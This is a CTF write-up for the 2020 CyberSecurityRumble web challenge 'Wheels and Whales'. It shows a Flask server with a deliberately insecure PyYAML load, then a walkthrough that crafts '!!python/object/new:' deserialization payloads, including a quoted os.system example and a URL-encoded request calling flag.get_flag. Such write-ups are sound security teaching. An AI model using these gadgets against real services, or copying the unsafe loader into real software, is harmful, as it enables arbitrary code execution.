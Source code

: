 ```yaml
---
ctf: CyberSecurityRumble
year: 2020
tags:
  - web
  - ace
---
```


# Wheels and Whales

The goal is this challenge is to run the function `flag.get_flag()`.
The code of the server is provided below, even though most is fluff.

```python
import yaml
from flask import redirect, Flask, render_template, request, abort
from flask import url_for, send_from_directory, make_response, Response
import flag

app = Flask(__name__)

EASTER_WHALE = {"name": "TheBestWhaleIsAWhaleEveryOneLikes", "image_num": 2, "weight": 34}

@app.route("/")
def index():
    return render_template("index.html.jinja", active="home")


class Whale:
    def __init__(self, name, image_num, weight):
        self.name = name
        self.image_num = image_num
        self.weight = weight

    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/whale", methods=["GET", "POST"])
def whale():
    if request.method == "POST":
        name = request.form["name"]
        if len(name) > 10:
            return make_response("Name to long. Whales can only understand names up to 10 chars", 400)
        image_num = request.form["image_num"]
        weight = request.form["weight"]
        whale = Whale(name, image_num, weight)
        if whale.__dict__ == EASTER_WHALE:
            return make_response(flag.get_flag(), 200)
        return make_response(render_template("whale.html.jinja", w=whale, active="whale"), 200)
    return make_response(render_template("whale_builder.html.jinja", active="whale"), 200)


class Wheel:
    def __init__(self, name, image_num, diameter):
        self.name = name
        self.image_num = image_num
        self.diameter = diameter

    @staticmethod
    def from_configuration(config):
        return Wheel(**yaml.load(config, Loader=yaml.Loader)) # insecure load

    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/wheel", methods=["GET", "POST"])
def wheel():
    if request.method == "POST":
        if "config" in request.form:
            wheel = Wheel.from_configuration(request.form["config"]) # load usage
            return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
        name = request.form["name"]
        image_num = request.form["image_num"]
        diameter = request.form["diameter"]
        wheel = Wheel(name, image_num, diameter)
        print(wheel.dump())
        return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
    return make_response(render_template("wheel_builder.html.jinja", active="wheel"), 200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```

The server is able to serialize and deserialize `yaml`,
we can leverage the usage of an insecure loader to get ACE.

We are in luck as the function has recently deprecated and `pyyaml`'s wiki has a [post](https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation) explaining the reasons and providing an example.

The example is as follows:

```sh
python -c 'import yaml; yaml.load("!!python/object/new:os.system [echo EXPLOIT!]")'
```

From the example we can craft our own payload,
`name` contains the malicious command which calls `flag.get_flag`,
with `[]` as argument since the function does not take any.

This will evaluate the call and return the flag as our wheel name.

```
name: !!python/object/new:flag.get_flag []
image_num: 2
diameter: 2
```

What is left is to send a request with `?config=name:%20!!python/object/new:flag.get_flag%20%5B%5D%0Aimage_num:%202%0Adiameter:%202`.

